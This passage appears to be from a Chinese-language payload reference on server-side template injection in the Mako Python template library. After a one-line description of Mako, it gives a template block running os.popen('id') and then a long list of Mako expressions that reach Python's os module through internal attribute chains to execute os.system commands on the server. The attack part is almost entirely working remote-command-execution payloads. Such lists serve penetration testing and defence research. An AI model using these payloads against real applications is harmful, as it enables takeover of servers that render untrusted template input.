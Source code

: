 [官方网站](https://www.makotemplates.org/)
> Mako是一个用Python编写的模板库。从概念上讲，Mako是一种嵌入式Python（即Python服务器页面）语言，它完善了组件化布局和继承的熟悉概念，产生了最直接和灵活的模型之一，同时保持了与Python调用和作用域语义的紧密联系。

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

### Mako - 远程命令执行

以下任何载荷都允许直接访问`os`模块

```python
${self.module.cache.util.os.system("id")}
${self.module.runtime.util.os.system("id")}
${self.template.module.cache.util.os.system("id")}
${self.module.cache.compat.inspect.os.system("id")}
${self.__init__.__globals__['util'].os.system('id')}
${self.template.module.runtime.util.os.system("id")}
${self.module.filters.compat.inspect.os.system("id")}
${self.module.runtime.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.util.os.system("id")}
${self.template.__init__.__globals__['os'].system('id')}
${self.module.cache.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.util.os.system("id")}
${self.template.module.cache.compat.inspect.os.system("id")}
${self.module.cache.compat.inspect.linecache.os.system("id")}
${self.template._mmarker.module.runtime.util.os.system("id")}
${self.attr._NSAttr__parent.module.cache.util.os.system("id")}
${self.template.module.filters.compat.inspect.os.system("id")}
${self.template.module.runtime.compat.inspect.os.system("id")}
${self.module.filters.compat.inspect.linecache.os.system("id")}
${self.module.runtime.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.exceptions.util.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.util.os.system("id")}
${self.context._with_template.module.cache.util.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.template.module.cache.util.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.util.os.system("id")}
${self.module.cache.util.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.linecache.os.system("id")}
${self.module.runtime.exceptions.traceback.linecache.os.system("id")}
${self.module.runtime.exceptions.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.compat.inspect.os.system("id")}
${self.template.module.cache.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.cache.util.os.system("id")}
${self.template._mmarker.module.filters.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.cache.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.exceptions.util.os.system("id")}
${self.template.module.filters.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.runtime.util.os.system("id")}
${self.context._with_template._mmarker.module.cache.util.os.system("id")}
${self.template.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.filters.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.cache.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.linecache.os.system("id")}
```